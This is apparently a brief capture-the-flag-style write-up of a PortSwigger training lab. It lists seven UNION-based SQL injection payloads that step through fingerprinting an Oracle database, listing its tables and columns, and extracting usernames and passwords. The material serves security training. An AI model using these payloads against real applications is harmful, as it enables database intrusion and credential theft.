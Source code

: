 # SQL injection attack, listing the database contents on Oracle
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle

Step - 1
-
`'`</br>
Error > Single Quotes

Step - 2
-
`'--`</br>
No MySQL

Step - 3
-
`' ORDER BY 3--`</br>
Error > 2 Column

Step - 4
-
`' UNION SELECT 'a','a' FROM dual--`</br>
2 String Column

Step - 5
-
`' UNION SELECT 'a',table_name FROM all_tables--`</br>
1. Table Name: USERS_JASUOU

Step - 6
-
`' UNION SELECT 'a',column_name FROM all_tab_columns WHERE table_name='USERS_JASUOU'--`</br>
1. Column Name: USERNAME_GSFFNH and PASSWORD_DITWXL

Step - 7
-
`' UNION SELECT 'a',USERNAME_GSFFNH || '~' || PASSWORD_DITWXL FROM USERS_JASUOU--`</br>
